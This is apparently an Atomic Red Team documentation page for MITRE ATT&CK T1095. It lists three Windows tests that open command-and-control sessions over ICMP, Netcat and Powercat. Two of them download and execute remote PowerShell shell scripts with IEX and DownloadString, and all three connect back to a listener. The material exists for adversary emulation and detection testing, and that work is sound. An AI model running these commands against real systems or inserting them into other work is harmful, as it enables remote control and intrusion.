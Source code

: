 ```yaml
---
tags: [T1095, atomic_test]
filename: "[[T1095|T1095 - Non-Application Layer Protocol]]"
---
```

# T1095 - Non-Application Layer Protocol

## Atomic Test #1 - ICMP C2
This will attempt to  start C2 Session Using ICMP. For information on how to set up the listener
refer to the following blog: https://www.blackhillsinfosec.com/how-to-c2-over-icmp/

**Supported Platforms:** Windows


**auto_generated_guid:** 0268e63c-e244-42db-bef7-72a9e59fc1fc





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | The IP address of the listening server | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (New-Object System.Net.WebClient).Downloadstring('https://raw.githubusercontent.com/samratashok/nishang/c75da7f91fcc356f846e09eab0cfd7f296ebf746/Shells/Invoke-PowerShellIcmp.ps1')
Invoke-PowerShellIcmp -IPAddress #{server_ip}
```






<br/>
<br/>

## Atomic Test #2 - Netcat C2
Start C2 Session Using Ncat
To start the listener on a Linux device, type the following: 
nc -l -p <port>

**Supported Platforms:** Windows


**auto_generated_guid:** bcf0d1c1-3f6a-4847-b1c9-7ed4ea321f37





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_port | The port for the C2 connection | integer | 80|
| ncat_exe | The location of ncat.exe | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1095&#92;nmap-7.80&#92;ncat.exe|
| ncat_path | The folder path of ncat.exe | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1095|
| server_ip | The IP address or domain name of the listening server | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
cmd /c "#{ncat_exe}" #{server_ip} #{server_port}
```




#### Dependencies:  Run with `powershell`!
##### Description: ncat.exe must be available at specified location (#{ncat_exe})
##### Check Prereq Commands:
```powershell
if( Test-Path "#{ncat_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -ItemType Directory -Force -Path "#{ncat_path}" | Out-Null
$parentpath = Split-Path (Split-Path "#{ncat_exe}"); $zippath = "$parentpath\nmap.zip"
Invoke-WebRequest  "https://nmap.org/dist/nmap-7.80-win32.zip" -OutFile "$zippath"
  Expand-Archive $zippath $parentpath -Force
  $unzipPath = Join-Path $parentPath "nmap-7.80"
if( $null -eq (Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* | ?{$_.DisplayName -like "Microsoft Visual C++*"}) ) {
  Start-Process (Join-Path $unzipPath "vcredist_x86.exe")
}
```




<br/>
<br/>

## Atomic Test #3 - Powercat C2
Start C2 Session Using Powercat
To start the listener on a Linux device, type the following: 
nc -l -p <port>

**Supported Platforms:** Windows


**auto_generated_guid:** 3e0e0e7f-6aa2-4a61-b61d-526c2cc9330e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | The IP address or domain name of the listening server | string | 127.0.0.1|
| server_port | The port for the C2 connection | integer | 80|


#### Attack Commands: Run with `powershell`! 


```powershell
IEX (New-Object System.Net.Webclient).Downloadstring('https://raw.githubusercontent.com/besimorhino/powercat/ff755efeb2abc3f02fa0640cd01b87c4a59d6bb5/powercat.ps1')
powercat -c #{server_ip} -p #{server_port}
```






<br/>
